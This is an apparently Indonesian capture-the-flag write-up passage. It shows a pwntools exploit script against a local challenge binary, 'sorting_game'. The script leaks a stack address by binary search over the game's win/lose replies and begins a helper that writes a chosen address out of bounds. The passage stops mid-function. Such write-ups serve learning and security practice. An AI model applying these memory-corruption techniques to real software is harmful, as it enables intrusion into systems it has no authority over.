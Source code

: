 Berikut exploit saya sendiri:

```py


from pwn import *
from z3 import *
import codecs

p = process('./sorting_game')

largest_number = 0x0000fffffffffffe

# print(lst)

lo = 0
hi = largest_number
haha = 54
for j in range(haha):
	mid = (lo + hi) // 2
	p.sendlineafter("nomor bilangan:", str(1))
	p.sendlineafter("baru:", str(largest_number))
	p.sendlineafter("nomor bilangan:", str(2))
	p.sendlineafter("baru:", str(largest_number-1))

	for i in range(30):
		p.sendlineafter("nomor bilangan:", str(32-i))
		# print(str(largest_number - i))
		p.sendlineafter("baru:", str(largest_number - 32 + i))

	p.sendlineafter("nomor bilangan:", str(1))
	p.sendlineafter("baru:", str(mid))
	ans = p.recvuntil("menang!").decode('ascii')
	if("Anda menang!" in ans):
		hi = mid - 1
	else:
		lo = mid + 1
	if(j != haha-1):
		p.sendlineafter("(Y/N)", 'Y')

stack_leak = lo
print(hex(stack_leak))



def adder(amount, address, not_help=True, aaa = False):

	if(not_help):
		p.sendlineafter("(Y/N)", 'Y')
	p.sendlineafter("nomor bilangan:", str(1))
	p.sendlineafter("baru:", str(largest_number))
	p.sendlineafter("nomor bilangan:", str(2))
	p.sendlineafter("baru:", str(largest_number-1))
	p.sendlineafter("nomor bilangan:", str(3))
	p.sendlineafter("baru:", str(largest_number-2))

	for i in range(29):
		p.sendlineafter("nomor bilangan:", str(32-i))
		# print(str(largest_number - i))
		p.sendlineafter("baru:", str(largest_number - 32 + i))

	p.sendlineafter("nomor bilangan:", str(0))
	p.sendlineafter("baru:", str(address))
	# pause()
```